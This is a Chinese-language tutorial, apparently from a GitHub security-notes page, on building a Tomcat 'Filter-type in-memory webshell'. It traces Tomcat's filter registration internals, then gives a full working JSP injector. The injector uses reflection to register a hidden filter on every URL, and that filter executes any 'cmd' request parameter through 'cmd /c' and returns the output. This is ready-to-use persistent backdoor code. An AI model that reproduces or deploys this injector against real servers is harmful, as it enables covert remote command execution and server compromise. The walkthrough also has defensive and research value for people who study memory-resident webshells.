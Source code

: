# Tomcat-Filter型内存马



当tomcat接收到请求时候，依次会经过Listener -> Filter -> Servlet，监听器的我们已经实现了相对简单一点，过滤器的则相对复杂一点

## 流程分析

首先需要简单写个filter

```java
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("filter初始化");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        System.out.println("doFilter过滤");
        //放行
        chain.doFilter(request,response);
    }

    @Override
    public void destroy() {
        System.out.println("destroy filter");

    }
}
```

配置xml

```xml
<filter>
    <filter-name>TestFilter</filter-name>
    <filter-class>com.yyds.TestFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>TestFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```

从调用链当中我们可以看到一个filterChain

![](img/3.png)

可以看到是通过ApplicationFilterFactory.createFilterChain获得

![](img/4.png)

这里获得了filterMaps![](img/5.png)

看看哪里可以添加![](img/6.png)

找到了个addFilterMap还有个addFilterMapBefore，经过具体跟踪确定是addFilterMap，这里添加了一个filterMap

![](img/2.png)

看看这个filterMap里面存了什么FilterName、URLPattern、Dispatcher，并且这个Dispatcher根据类型我们只需要设置一个DispatcherType.REQUEST.name()

![](img/17.png)![](img/18.png)

从调用上可以看到在web.xml当中解析并添加`FilterDef`和`FilterMap`![](img/1.png)

接下来再往下去尝试获取了filterConfig![](img/8.png)

跟入找到了

![](img/9.png)

再来看filterConfigs在哪里设置的，发现在filterStart中有调用

![](img/10.png)

可以看到这里建立了一个映射，这个filterConfig是通过entry.getValue()获得，跟踪下发现是filterDefs

![](img/11.png)

是一个HashMap

![](img/12.png)

通过addFilterDef设置值

![](img/13.png)

看到这里设置了一个name与一个class

![](img/14.png)

设置好后添加进filterDefs即可

![](img/15.png)

接下来再回到ApplicationFilterConfig，看到将StandardContext与filterdef添加进去

![](img/16.png)

## 实现内存马

根据上面流程我们只需要设置filterMaps、filterConfigs、filterDefs就可以注入恶意的filter

- filterMaps：一个HashMap对象，包含过滤器名字和URL映射
- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射
- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "y4tacker";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>
```

![](img/19.png)



![](img/21.png)